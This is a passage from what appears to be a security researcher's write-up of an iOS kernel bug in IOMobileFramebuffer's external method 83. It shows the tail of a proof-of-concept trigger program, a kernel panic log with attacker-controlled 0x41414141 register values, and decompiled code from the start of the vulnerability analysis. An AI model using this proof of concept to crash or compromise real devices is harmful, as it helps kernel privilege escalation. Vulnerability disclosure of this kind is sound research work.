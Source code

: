 ```bash
    printf("failed to call external method: 0x%x --> %s\n", ret, mach_error_string(ret));
    return;
  }
   
  printf("external method returned KERN_SUCCESS\n");
   
  IOServiceClose(shared_user_client_conn);
  printf("success!\n");
}

The panic:

  "build" : "iPhone OS 14.4.1 (18D61)",
  "product" : "iPhone10,3",
  "kernel" : "Darwin Kernel Version 20.3.0: Tue Jan  5 18:34:47 PST 2021; root:xnu-7195.80.35~2\/RELEASE_ARM64_T8015",
  "incident" : "5526E312-E093-4A29-8366-248751EB20DC",
  "crashReporterKey" : "b03b0cfc811a7f8e91fa5e0678362b6b3190450e",
  "date" : "2021-03-29 02:37:43.07 +0300",
  "panicString" : "panic(cpu 1 caller 0xfffffff027e53660): Kernel data abort. at pc 0xfffffff0282e8830, lr 0xfffffff0282dbb68 (saved state: 0xffffffe811c63420)\n\t  x0: 0xffffffe4cdc7ccb0  x1:  0xffffffe19c2a0628  x2:  0xffffffe811c637fc  x3:  0x0000000041414141\n\t  x4: 0x0000000000000000  x5:  0x0000000000000000  x6:  0x0000000000000000  x7:  0x0000000000000a10\n\t  x8: 0xffffffe4cdc7ccb0  x9:  0x0000000041414141  x10: 0xffffffe6d7d1e110  x11: 0x0000000041414141\n\t  x12: 0x0000000000000002 x13: 0x0000000000000002  x14: 0xffffffe19bcdeee8  x15: 0x0000000000000003\n\t  x16: 0x0000000000008000 x17: 0xfffffff027e50b28  x18: 0xfffffff027e45000  x19: 0xffffffe811c63940\n\t  x20: 0x0000000000000000 x21: 0xffffffe4cdc58000  x22: 0xfffffff027645a08  x23: 0x00000000e00002c2\n\t  x24: 0x0000000000000000 x25: 0xffffffe811c63aec  x26: 0xffffffe4ce60d570  x27: 0xffffffe4cdf1df44\n\t  x28: 0x0000000000000000 fp:  0xffffffe811c637a0  lr:  0xfffffff0282dbb68  sp:  0xffffffe811c63770\n\t  pc:  0xfffffff0282e8830 cpsr: 0x60400204         esr: 0x96000006          far: 0xffffffe6d7d1e110\n\nDebugger message: panic\nMemory ID: 0x1\nOS release type:%                                saaramar@Saars-Air clcd_controlled_idx % 
```

## The vulnerability

Let's start with understanding the vulnerability, how we can trigger it and what it gives us. The vulnerability is in a flow called from the external method 83 of *AppleCLCD*/*IOMFB* (which is *IOMobileFramebufferUserClient::s_displayed_fb_surface*). The following decompile code is from iOS 14 beta, but it is basically the same in later versions:

```c++
__int64 __fastcall IOMobileFramebufferUserClient::s_displayed_fb_surface(IOUserClient **a1, __int64 a2, IOExternalMethodArguments_s *args)
{
  __int64 v4; // [xsp+10h] [xbp-30h]
  bool v5; // [xsp+1Bh] [xbp-25h]
  unsigned int v6; // [xsp+1Ch] [xbp-24h]
  int v7; // [xsp+20h] [xbp-20h]
  unsigned int v_retval; // [xsp+24h] [xbp-1Ch]

  v_retval = 0xE00002C1;
  v7 = 0xAAAAAAAA;
  v6 = 0;
  v5 = 0;
  v4 = IOUserClient::copyClientEntitlement(a1[29], "com.apple.private.allow-explicit-graphics-priority", args);
  if ( v4 )
  {
    v5 = v4 == gOSBooleanTrue;
    (*(*v4 + 40LL))(v4);
  }
  if ( v5 )
```